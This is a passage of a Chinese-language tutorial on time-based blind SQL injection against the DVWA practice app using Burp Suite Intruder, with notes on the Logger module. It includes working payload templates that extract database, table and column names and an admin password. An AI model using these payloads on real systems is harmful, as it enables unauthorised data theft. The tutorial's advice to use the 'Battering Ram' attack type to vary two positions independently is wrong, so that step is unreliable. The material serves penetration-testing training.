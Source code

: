 **第六步：提取更多数据**

一旦掌握了提取一个字段（如第一个用户的密码）的方法，你可以修改 Payload 模板来提取其他信息：

*   **数据库名:** `-1 OR IF(ASCII(SUBSTRING(DATABASE(), §1§, 1)) = §2§, SLEEP(5), 0) -- `
*   **表名 (第一个表):** `-1 OR IF(ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 0,1), §1§, 1)) = §2§, SLEEP(5), 0) -- ` (需要知道数据库名，或者用 `DATABASE()` 代替)
*   **列名 (某个表的第一个列):** `-1 OR IF(ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema = DATABASE() AND table_name = 'users' LIMIT 0,1), §1§, 1)) = §2§, SLEEP(5), 0) -- ` (需要知道数据库名和表名)
*   **特定用户的密码 (假设用户名为 'admin'):** `-1 OR IF(ASCII(SUBSTRING((SELECT password FROM users WHERE username = 'admin' LIMIT 0,1), §1§, 1)) = §2§, SLEEP(5), 0) -- ` (需要知道用户名)

每次提取一种信息，都需要重新配置 Intruder 的 Payloads，设置合适的位置范围。

**关于 Logger 模块：**

Logger 模块可以记录 Burp Suite 中所有或特定工具（如 Intruder、Repeater）发送的请求和接收的响应。

*   **用途：**
    *   提供一个独立的、可搜索的流量历史记录，与 Proxy History 分开。
    *   方便对特定攻击（例如 Intruder 攻击）的所有请求/响应进行事后审计。
    *   可以根据各种条件（工具、主机、请求头、响应头、内容等）过滤日志。
*   **在盲注中的作用：** 虽然 Intruder 的 Attack 结果窗口已经非常直观地展示了关键信息（长度、时间、状态码），Logger 提供了每个请求/响应的完整细节。如果你需要深入检查某个特定请求的完整响应体，或者在 Intruder 攻击结束后回顾整个攻击过程的流量细节，Logger 会很有用。但它不是分析盲注**结果**（判断真假条件）的主要工具，这个任务由 Intruder 的结果分析功能更好地完成。

**总结：**

利用 Burp Suite Intruder 进行盲注是一个自动化、高效的过程。

*   **布尔盲注**依赖于观察应用程序响应的**长度**或**内容**变化。
*   **时间盲注**依赖于观察应用程序响应的**时间延迟**。

在 DVWA Low 级别，由于是数字型注入且无过滤，盲注相对容易实现。关键在于构造合适的 Payload 模板，使用 `Batter Battering Ram` 攻击类型同时变化字符位置和 ASCII 值，并通过 Intruder 的结果分析功能（Length 或 Response received）判断条件真假，最终拼凑出被隐藏的数据。Logger 作为辅助工具，可以记录流量供后续审计，但主要的结果分析在 Intruder 的 Attack 窗口中进行。

**重要提示：**

*   实际渗透测试中，时间盲注容易产生大量请求，可能被检测。布尔盲注在响应区别明显时更高效。
*   注意 SQL 语法，不同数据库（MySQL, SQL Server, Oracle 等）的盲注函数和 `information_schema` 结构不同。DVWA 默认使用 MySQL。
*   始终在授权的环境下进行渗透测试。


